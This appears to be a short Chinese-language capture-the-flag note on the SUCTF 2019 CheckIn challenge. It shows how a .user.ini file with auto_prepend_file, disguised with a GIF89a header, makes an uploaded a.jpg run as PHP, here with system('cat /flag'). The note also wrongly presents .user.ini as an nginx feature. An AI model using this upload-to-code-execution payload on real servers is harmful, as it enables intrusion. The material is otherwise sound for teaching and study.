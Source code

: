 在nginx服务器中有一个类似于apache服务器.htaccess文件的文件 .user.ini

user.ini有两个特殊的配置：



auto_prepend_file和auto_append_file这个配置会把配置中的文件包含到要执行的文件中。

（如index.php），类似于在index.php中插入一句：require(./a.jpg);



```javascript
1. auto_prepend_file是在文件前插入

2.auto_append_file在文件最后插入
```



列如：

从SUCTF 2019 CheckIn



# 1. .user.ini写入：

```javascript
GIF89a
auto_prepend_file=a.jpg
```



![](images/95DE1676E0A346FB99E9C4DAFE81DBB9clipboard.png)

# 2.上传a.jpg

a.jpg中写入：



```javascript
GIF89a
<script language='php'>system('cat /flag');</script>
```





# 3.访问index.php 

此时index.php文件中包含了a.jpg

则执行了a.jpg的内容

![](images/AA9EB654A0E648AF94BE8DCC3F5B04A9clipboard.png)



